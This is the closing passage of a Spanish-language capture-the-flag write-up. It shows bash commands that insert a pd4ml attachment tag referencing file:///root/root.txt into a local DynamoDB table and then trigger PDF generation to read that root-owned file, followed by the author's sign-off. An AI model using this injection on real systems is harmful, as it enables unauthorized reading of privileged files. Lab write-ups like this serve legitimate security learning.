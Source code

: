 ```bash

#Add data to the table
aws --endpoint-url=http://localhost:4566 dynamodb put-item --table-name alerts \
        --item '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment description=\"attached.txt\" icon=\"PushPin\">file:///root/root.txt</pd4ml:attachment>"}}'

#Validate data inside table
aws --endpoint-url=http://localhost:4566 dynamodb scan --table-name alerts

#Generate PDF
curl -X POST --data "action=get_alerts" http://localhost:8000/index.php

#Read `result.pdf`
cat /var/www/bucket-app/files/result.pdf
```

...

Es todo por esta máquina. Muy linda y entretenida, como casi siempre hay momentos en los que me súper pierdo, pero bueno de eso se trata, aprender de todos los tropiezos.

El privesc me pareció muy loco... Pero muy original y a la vez que miedito, todo lo que puede causar un archivo con inputs :P

Por ahora no es más, nos leeremos en otra ocasión, gracias por leer y espero les haya servido. A seguir rompiendo todo 😊